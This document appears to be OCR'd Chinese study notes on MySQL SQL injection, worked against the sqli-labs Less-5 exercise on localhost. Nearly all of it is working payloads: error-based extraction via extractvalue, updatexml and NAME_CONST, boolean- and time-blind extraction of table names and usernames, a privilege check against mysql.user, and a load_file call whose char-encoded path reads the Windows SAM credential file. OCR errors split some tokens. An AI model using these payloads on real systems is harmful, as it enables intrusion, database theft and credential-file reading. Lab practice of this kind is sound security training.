 select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x; //mysql 重复特性，此处重复了 version，所以报错。

extractvalue(1,concat(0x7e,(select @@version),0x7e)) se//mysql 对 xml 数据进 行查询和修改的 xpath 函数，xpath 语法错误

updatexml(1,concat(0x7e,(select @@version),0x7e),1) //mysql 对 xml 数据进行 查询和修改的 xpath 函数，xpath 语法错误

实例： http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(version(),1)=5%23

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20length(database())=8%23

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(database(),1)%3E%27a%27–+

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(database(),2)%3E%27sa%27–+

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20ascii(substr((select%20table_name% 20from%20information_schema.tables%20where%20table_schema=database()%20limit%20 0,1),1,1))%3E80–+

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20ascii(substr((select%20table_name%20from%20i nformation_schema.tables%20where%20table_schema=database()%20limit%200,1),2,1))%3E108 –+

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20ascii(substr((select%20table_name%20from%20i nformation_schema.tables%20where%20table_schema=database()%20limit%201,1),1,1))%3E113 –+

http://127.0.0.1/sqllib/Less-5/?id=1%27%20and%201=(select%201%20from%20information_sch ema.columns%20where%20table_name=%27users%27%20and%20table_name%20regexp%20% 27^us[a-z]%27%20limit%200,1)–+

http://127.0.0.1/sqllib/Less-5/?id=1’ and 1=(select 1 from information_schema.columns where table_name=‘users’ and column_name regexp ‘^username’ limit 0,1)–+

http://127.0.0.1/sqllib/Less-5/?id=1%27%20and%20ORD(MID((SELECT%20IFNULL(CAST(usernam e%20AS%20CHAR),0x20)FROM%20security.users%20ORDER%20BY%20id%20LIMIT%200,1),1,1))= 68–+

http://127.0.0.1/sqllib/Less-5/?id=1’ union Select 1,count(*),concat(0x3a,0x3a,(select user()),0 x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a–+

http://127.0.0.1/sqllib/Less-5/?id=1’ union select (exp(~(select * FROM(SELECT USER())a))),2, 3–+

http://127.0.0.1/sqllib/Less-5/?id=1’ union select (!(select * from (select user())x) – ~0),2,3- -+

http://127.0.0.1/sqllib/Less-5/?id=1’ and extractvalue(1,concat(0x7e,(select @@version),0x7e)) –+

http://127.0.0.1/sqllib/Less-5/?id=1’ and updatexml(1,concat(0x7e,(select @@version),0x7e),1) –+

http://127.0.0.1/sqllib/Less-5/?id=1’union select 1,2,3 from (select NAME_CONST(version(),1), NAME_CONST(version(),1))x –+

http://127.0.0.1/sqllib/Less-5/?id=1’and If(ascii(substr(database(),1,1))=115,1,sleep(5))–+

http://127.0.0.1/sqllib/Less-5/?id=1’UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BEN CHMARK(50000000,ENCODE(‘MSG’,‘by 5 seconds’)),null)),2,3 FROM (select database() as cur rent) as tb1–+

### 导入导出文件

and (select count(_) from mysql.user)>0/_ 如果结果返回正常,说明具有读写权限。 and (select count(_) from mysql.user)>0/_ 返回错误，应该是管理员给数据库帐户降权

Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92, 114,101,112,97,105,114,92,115,97,109))) 利用 hex()将文件内容导出来，尤其是 smb 文件时可以使用。
